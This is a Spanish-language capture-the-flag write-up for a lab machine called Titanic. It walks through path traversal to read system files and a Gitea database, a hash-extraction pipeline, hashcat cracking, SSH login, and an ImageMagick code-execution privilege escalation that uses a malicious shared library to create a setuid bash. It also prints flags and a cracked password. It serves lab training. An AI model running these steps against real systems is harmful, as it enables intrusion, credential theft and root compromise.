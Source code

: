 # 1. Reconocimiento y Enumeración:

Hacemos un ping a la máquina para ver si se encuentra activa: `$ ping -c 1 10.10.11.55`

Dentro de la respuesta vemos que que está activa y que nos devuelve un ttl (time to live) de 63, esto nos indica que seguramente sea una máquina Linux debido a que su ttl es muy próximo a 64.

Comenzamos a realizar los escaneos con nmap: `$ nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.55`

Vemos que el puerto 22 (SSH) y el puerto 80 (HTTP) están abiertos.

Hacemos un escaneo en el que lanzamos un conjunto de scripts de reconocimiento y detectamos los servicios y versiones que corren para los puertos mencionados anteriormente: `$ nmap -sCV -p22,80 10.10.11.55`

Los resultados que nos devuelve el escaneo no hay nada que merezca ser nombrado.

En este momento vamos a la web a ver como está montada, es posible que tengamos que añadir la siguiente línea al archivo '/etc/hosts' `10.10.11.55 titanic.htb`.

Escribimos http://titanic.htb en el buscador y vemos la web.

Probando la función de reservar un 'viaje' vemos que al finalizar se nos descarga un archivo con los datos que hemos rellenado, vemos que para descargar el archivo somos dirigidos a 'http:titanic.htb/download?ticket='.

Al ver esto probamos si es vulnerable a un path traversal, vemos que al apuntar a `http://titanic.htb/download?ticket=../../../etc/passwd` nos permite descargar el archivo '/etc/passwd' viendo que la máquina tiene dos usuarios 'developer' y 'root'.

De esta forma podríamos obtener la flag del usuario no privilegiado con `http://titanic.htb/download?ticket=../../../home/developer/user.txt`

Así obtenemos la flag del usuario: 7157c244671760ed9608942464073493

En este punto vamos a enumerar los subdominios de la web: `$ ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac`

Vemos que hay un subdominio 'dev.titanic.htb', lo añadimos al '/etc/hosts'.

Al ver esta web vemos que utiliza `gitea` vemos que en el apartado Explore hay dos repositorios dentro del usuario 'developer'.

En el apartado Help si nos dirigimos al apartado de configuración Docker como desarrollador, aquí nos indica que el archivo de configuración se guarda de '/data/gitea/gitea.db'.
# Exploit:

Ahora apuntamos a la ruta vista anteriormente: `http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini`

Dentro de este archivo vemos información acerca de la base de datos, la cual se encuentra en '/data/gitea/gitea.db'.

Con esto nos descargamos la base de datos: `http://titanic.htb/download?ticket=../../home/developer/gitea/data/gitea/gitea.db`

A continuación extraemos los hashes de los usuarios con: `$ sqlite3 _.._.._home_developer_gitea_data_gitea_gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes`

De esta forma obtenemos el hash de el usuario developer, a continuación procedemos a crackearlo usando hashcat: `$ hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --force`

De esta forma vemos que la contraseña de el usuario developer es `25282528`.

Ahora nos podemos conectar a la máquina a través de SSH como usuario developer: `$ sshpass "25282528" ssh developer@10.10.11.55`.

Buscamos alguna forma para escalar privilegios en el sistema.

Vemos los directorios y archivos en el directorio de trabajo del usuario 'developer': `$ ls -la`.

Listamos los procesos del sistema: `$ ps auxww`.

Los procesos del sistema solo son visibles para algunos usuarios y para root, esto es debido a que el directorio '/proc' esta montado con la opción hidepid en invisible. Lo podemos confirmar al hacer: `$ mount | grep "/proc "`

Ahora listamos el contenido del directorio '/opt':
- app contiene lo visto en gitea.
- El usuario developer no tiene permiso de lectura en containerd.
- scripts contiene un único archivo `.sh`.

Al analizar el script vemos que realiza una serie de acciones en el directorio '/opt/app/static/assets/images', y dentro del directorio trabaja con el archivo metadata.log, este contiene información de cada imagen dentro del directorio /images.

Vemos que el propietario de metadata.log es 'root' y que se actualiza cada minuto. Por lo que que el script debe estar dentro de una tarea cron.

Como usuario 'developer' tenemos permiso de escritura en el directorio /images, lo que puede permitirnos una elevación de privilegios a través de Image Magick, dicho binario está en la versión 7.1.1-35.

Al realizar una búsqueda en Google vemos que para esta versión de Image Magick hay un Arbitrary Code Execution.

Para explotar esta vulnerabilidad, hacemos lo siguiente: 
```$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF #include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
__attribute__((constructor)) void init(){ 
	system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf"); 
	exit(0); 
} 
EOF
```

Esperamos un minuto a que se actualize el archivo gracias a la tarea cron, una vez actualizado el archivo: `$ ls -l /tmp/0xdf`.

Al apuntar  a este directorio con el parámetro -p, obtenemos una bash como root.

Finalmente obtenemos la flag de root: `$ cd`, `$ cat root.txt`